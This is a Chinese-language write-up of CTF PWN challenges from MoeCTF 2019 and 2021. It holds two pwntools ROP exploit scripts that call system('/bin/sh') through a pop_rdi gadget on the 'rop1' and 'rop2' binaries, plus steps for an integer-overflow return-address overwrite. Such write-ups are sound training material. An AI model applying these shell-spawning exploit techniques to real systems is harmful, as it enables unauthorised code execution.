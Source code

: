 # MoeCTF的PWN做题笔记

## 2019

+ rop1

  > 非常经典的ROP
  >

  ```python
  from pwn import *
  io=process("./rop1")
  io.recvline()
  sh=p64(0x601070)
  sys=p64(0x400805)
  pop_rdi=p64(0x4008E3)
  payload=pop_rdi+sh+sys
  io.sendline(b'a'*(0x4+8)+payload)
  io.interactive()

  ```
+ rop2

  > 经典ROP之没有sh字符串
  >

  ```python
  from pwn import *
  context(os='linux',arch="amd64",log_level='debug')
  io=process("./rop2")
  elf=ELF('./rop2')
  sys=p64(elf.sym['system'])
  pop_rdi=p64(0x4008E3)
  str_addr=p64(0x601080)
  elf_gets=p64(elf.sym['gets'])
  payload=b'a'*(0x4+8)+pop_rdi+str_addr+elf_gets+pop_rdi+str_addr+sys
  io.recvline()
  io.sendline(payload)
  io.sendline('/bin/sh')
  io.interactive()

  ```

## 2021

+ Int_overflow_revenge

  + 华强买瓜，数组整数溢出，修改重量（溢出retaddr）
  + 首先输入一个小于1的数
  + 后输入选择的西瓜的index
  + 我们选第131个西瓜来溢出
  + 修改重量为backdoor函数地址（为整数形式）
  + getshell
+ babyfmt
